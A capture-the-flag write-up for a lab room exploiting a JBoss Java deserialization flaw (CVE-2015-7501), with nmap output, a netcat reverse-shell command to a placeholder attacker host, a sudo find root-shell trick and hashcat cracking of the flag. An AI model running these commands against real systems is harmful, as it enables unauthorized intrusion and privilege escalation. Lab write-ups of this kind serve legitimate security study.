

# Tony the Tiger

  
Learn how to use a Java Serialisation attack in this boot-to-root

## Summary

This boot2root room focuses on exploiting a particular **CVE** that is associated
with many popular web publishing platforms. All these platforms rely on a Java
Server backend. The **CVE** being highlighted is [CVE-2015-7501](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-7501).  
It is described as a vulnerability that, from the **NVD**(National Vulnerability Database),
"allow remote attackers to execute arbitrary commands via a crafted serialized Java object,
related to the Apache Commons Collections (ACC) library.  
So this is a _deserialization_ attack on the Java backend.  

Now I'm no expert at this and I'm still trying to get my head around just
what's going on here with serialization. To my monkey brain basically the site your browser is rendering makes calls to the web server that include trading data in the form of _Objects_. These _Objects_ are nothing more than organized data structures. They follow rules and are used to trade information about  types of data and what that data is. By manipulating an object being sent to  the web server an attacker can send data the server doesn't necessarily expect, but it knows how to deal with it. Similar to an xml entity injection, we are going to send a crafted data object that instead of telling the web server what name or which comment to render, we are going trick it into using a method to process some data the web site author left available and it will run some executable code that we direct it to.  

## Enumeration

Nmap fed by rustscan  

```

$ Nmap 7.93 scan initiated Sun Oct  2 20:50:11 2022 as: nmap -sC -sV -oN scans/tonythetiger_allPorts -vvv -p 22,80,1090,1091,1099,1098,4712,4713,5500,5501,8083,8080 10.10.246.141
Nmap scan report for 10.10.246.141
Host is up, received syn-ack (0.24s latency).
Scanned at 2022-10-02 20:50:12 EDT for 172s

PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-generator: Hugo 0.66.0
|_http-title: Tony&#39;s Blog
1090/tcp open  java-rmi    syn-ack Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1091/tcp open  java-rmi    syn-ack Java RMI
1098/tcp open  java-rmi    syn-ack Java RMI
1099/tcp open  java-object syn-ack Java Object Serialization
| fingerprint-strings:
|   NULL:
|     java.rmi.MarshalledObject|
|     hash[
|     locBytest
|     objBytesq
|     #http://thm-java-deserial.home:8083/q
|     org.jnp.server.NamingServer_Stub
|     java.rmi.server.RemoteStub
|     java.rmi.server.RemoteObject
|     xpwA
|     UnicastRef2
|_    thm-java-deserial.home
4712/tcp open  msdtc       syn-ack Microsoft Distributed Transaction Coordinator (error)
4713/tcp open  pulseaudio? syn-ack
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns:
|_    126a
5500/tcp open  hotline?    syn-ack
| fingerprint-strings:
    [...]
|[--> thm-java-deserial <-- There's an Indicator]
5501/tcp open  tcpwrapped  syn-ack
8080/tcp open  http        syn-ack Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods:
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-title: Welcome to JBoss AS
8083/tcp open  http        syn-ack JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct  2 20:53:04 2022 -- 1 IP address (1 host up) scanned in 173.01 seconds
```
Our initial port scan used `rustscan` to pass a list of ports to `nmap` for evaluation. Get the best of both worlds that way. Pleasantly fast large range
scanning from `rustscan` and the well tested evaluation methods and features of  `nmap` without forcing Nmap to figure out what to test in the first place.  
There is a JBoss server running on `port 8080`.  

The room itself kindly supplies us with some exploit code in the form of
payload and a python2 script to deliver the payload.  This script takes a
**target** with **command** as parameters and apparently attempts to verify if the command was successfully run.  

I tested by attempting to ping my attacker IP from the the server FTW!  


With that win in hand, it's time to launch a shell back to our attacker box. If    we're *_lucky_* then there will be a `netcat` binary in our path and we can easily shovel a bash shell back to ourselves.  
` ./exploit.py <target.ip> "nc -e /bin/bash <attackers.ip> <attackers.port>`  

  

Houston, we have lift off!!!

Looking for a flag now. Something related to "_JBoss_" I presume. Wander around the file system and lo! and behold! there is a diry in /home for jboss. Even better, cmnatic left some creds in a world-readable file named `note`

	cat jboss/note
	Hey JBoss!

	Following your email, I have tried to replicate the issues you
	were having with the system.

	However, I don't know what commands you executed - is there any
	file where this history is stored that I can access?

	Oh! I almost forgot... I have reset your password as requested
	(make sure not to tell it to anyone!)

	Password: likeaboss

	Kind Regards,
	CMNatic


I suspect there is something valuable in jboss shell history file, oh, and
thanx for the fish. I mean creds.  

Pawing thru `/home/jboss/.bash_history`  
I see a flag! I see a flag!

  

We can see from the history file listing that the *flag* was written to `jboss.txt` then moved to `.jboss.txt`, a so called *hidden* file. But why bother with those details. Just pull the flag directly from the *history* and be done with it :smiley:  

## Escalation

The hint for the PrivEsc portion of our Tasks indicates one avenue of PrivEsc
will be brute forcing a login.

  

But I was wrong. With creds in hand for the _jboss_ user, I found I had some `sudo` privs that let me bypass authentication for `root`. Turns out, it was
the "flag" that needed the attention of a hash cracker. And alas, the ever popular **rockyou.txt** did have our needed translation. Apparently it's _de rigueur_to include that file in collections of known breached passwords.  

##### Here are the steps to get from `root.txt` to **FLAG**

1. Using an incantation from [GTFObins](https://gtfobins.github.io/gtfobins/find/#sudo)  

	sudo find . -exec /bin/sh \; -quit ==> to launch a root shell.  

2.
```
$ cat /root/root.txt
QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==
```

Which looks suspiciously like a _base64_ encoded string  

3.
```
cat /root/root.txt | base64 -d  
BC77AC072EE30E3760806864E234C7CF
```

4. Grab that string and plug it into `hashcat` back on our attacker box.
```
hashcat -m 0 -a 0 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```


#### That's a wrap for this boot2root
